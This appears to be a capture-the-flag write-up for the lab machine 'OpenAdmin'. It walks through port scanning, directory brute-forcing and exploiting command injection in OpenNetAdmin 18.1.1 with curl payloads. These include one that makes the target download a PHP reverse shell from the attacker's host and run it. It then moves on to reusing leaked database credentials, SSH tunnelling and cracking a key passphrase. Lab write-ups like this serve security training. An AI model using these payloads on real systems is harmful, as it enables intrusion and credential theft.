 MACHINE NAME: OpenAdmin
MACHINE IP: 10.10.10.171

# Recon and Enum.

First off, as usual we'll start with an nmap scan. Let's start by scanning the top 1000 ports.

Open ports:
22/tcp open  ssh
80/tcp open  http

Port 80 seems to be a good place to begin our econ and possibly get an initial foot hold, we'll have a look and see any technology stach being used on the website.

navigating to port 80, we are greeted with a default apache2 page.

Next, let's do som directory bruteforcing using gobuster.
Interesting results from the scan, we get some paths with 301 response status codes, let's have a look what we have here.

http://10.10.10.171/artwork

I explored this page, nothing outstanding pops up.


http://10.10.10.171/sierra

Next up, I looked at this path, again, nothing interesting shows up.

http://10.10.10.171/music

Lastly, I explored this page. Here is where things got a little interesting.

Navigating to the loginpage reveals a whole new and different page.
Wecan see a notification that weare not on the latest version of opennetadmin.

What exactly is opennetadmin?

OpenNetAdmin is a system for tracking IP network attributes in a database. A web interface is provided to administer the data, and there is a fully functional CLI interface for batch management (for those of you who prefer NOT to use a GUI).

source:https:opennetadmin.com/about

Let's do some recon if we have any known vulnerabilities for version  v18.1.1.

A quick look on searchsploit db confirms that indeed we have some exploits, an RCE and a command injection exploits for this particular version.

Let's try out the latter option, exploit the RCE. First let's find out the payload to use.


curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1

Upon running the curl command from the bash script, we can verify that in deed we have command execution. Let's try now and get a shell.

Since we have verified command execution on the RHOST, we can try to upload a php reverse shell script and execute to connect back to our attach machine.

Let's go to pentestmonkey's list to try a php reverse shell.

Let's host a server on our lhost to server out this script:


curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";wget 10.10.14.70:8000/shell.php;echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1

No let's run the earlier bash script and list directory contents on victim machine. And voila! our shell has been uploaded. Let's get our hands dirty.

Let's execute and get a connection back. We have already set up a netcat listener on our attack machine.

curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";cat shell.php | php;echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1

Just like that, we have a shell.
Two users, jimmy and Joanna found but we need valid creds to su.

Some more manual enum on the box and we land at /opt/ona/www/local/config  where we get a database mysql config file.

passwd: n1nj4W4rri0R!

Let's Login

mysql -u ona_sys -pn1nj4W4rri0R!



curl 127.0.0.1:52846/main.php

Password reuse is common, and the dblogin creds are also Jimmy's

curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";curl 127.0.0.1:52846/main.php;echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1

ssh jimmy@10.10.10.171 -L 52846:127.0.0.1:52846


127.0.0.1:52846/main.php

jimmy: Revealed

Get the private key.

encrypted!

/usr/share/john/ssh2john.py joanna > joana.hash

crack hash using john to get joanna's passphrase: bloodninjas.

ssh using joanna user.

Privesc vector is through nano.